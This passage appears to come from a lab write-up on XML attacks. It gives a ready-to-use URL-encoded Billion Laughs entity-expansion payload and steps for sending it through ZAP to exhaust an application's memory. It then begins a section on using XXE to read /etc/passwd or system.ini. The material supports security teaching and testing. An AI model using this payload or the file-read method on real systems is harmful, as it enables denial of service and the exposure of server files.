 ```xml
<lolz>&lol9;</lolz>
```
to
<br>
```
%3C!DOCTYPE%20lolz%20%5B%0A%20%3C!ENTITY%20lol%20%22lol%22%3E%0A%20%3C!ELEMENT%20lolz%20(%23PCDATA)%3E%0A%20%3C!ENTITY%20lol1%20%22%26lol%3B%26lol%3B%26lol%3B%26lol%3B%26lol%3B%26lol%3B%26lol%3B%26lol%3B%26lol%3B%26lol%3B%22%3E%0A%20%3C!ENTITY%20lol2%20%22%26lol1%3B%26lol1%3B%26lol1%3B%26lol1%3B%26lol1%3B%26lol1%3B%26lol1%3B%26lol1%3B%26lol1%3B%26lol1%3B%22%3E%0A%20%3C!ENTITY%20lol3%20%22%26lol2%3B%26lol2%3B%26lol2%3B%26lol2%3B%26lol2%3B%26lol2%3B%26lol2%3B%26lol2%3B%26lol2%3B%26lol2%3B%22%3E%0A%20%3C!ENTITY%20lol4%20%22%26lol3%3B%26lol3%3B%26lol3%3B%26lol3%3B%26lol3%3B%26lol3%3B%26lol3%3B%26lol3%3B%26lol3%3B%26lol3%3B%22%3E%0A%20%3C!ENTITY%20lol5%20%22%26lol4%3B%26lol4%3B%26lol4%3B%26lol4%3B%26lol4%3B%26lol4%3B%26lol4%3B%26lol4%3B%26lol4%3B%26lol4%3B%22%3E%0A%20%3C!ENTITY%20lol6%20%22%26lol5%3B%26lol5%3B%26lol5%3B%26lol5%3B%26lol5%3B%26lol5%3B%26lol5%3B%26lol5%3B%26lol5%3B%26lol5%3B%22%3E%0A%20%3C!ENTITY%20lol7%20%22%26lol6%3B%26lol6%3B%26lol6%3B%26lol6%3B%26lol6%3B%26lol6%3B%26lol6%3B%26lol6%3B%26lol6%3B%26lol6%3B%22%3E%0A%20%3C!ENTITY%20lol8%20%22%26lol7%3B%26lol7%3B%26lol7%3B%26lol7%3B%26lol7%3B%26lol7%3B%26lol7%3B%26lol7%3B%26lol7%3B%26lol7%3B%22%3E%0A%20%3C!ENTITY%20lol9%20%22%26lol8%3B%26lol8%3B%26lol8%3B%26lol8%3B%26lol8%3B%26lol8%3B%26lol8%3B%26lol8%3B%26lol8%3B%26lol8%3B%22%3E%0A%5D%3E%0A%3Clolz%3E%26lol9%3B%3C%2Flolz%3E
```

<br>
5.  Paste it like so
    <img src="Assets/XXE/Screenshot 2021-04-06 132852.png" width="800" />
6.  Watch as the memory of the application increases in task manager <br>
7.  XXE Injection completed

##### Retrieve the content of C:\Windows\system.ini or /etc/passwd from the server.
By using XXE injection, we can also even get system information and get private information
1.  As usual, we will need to intercept the request between the host and the server using ZAP.
2.  The instructions are similar to XXE but instead of changing the into Billion Laughs XML, we change it like so:
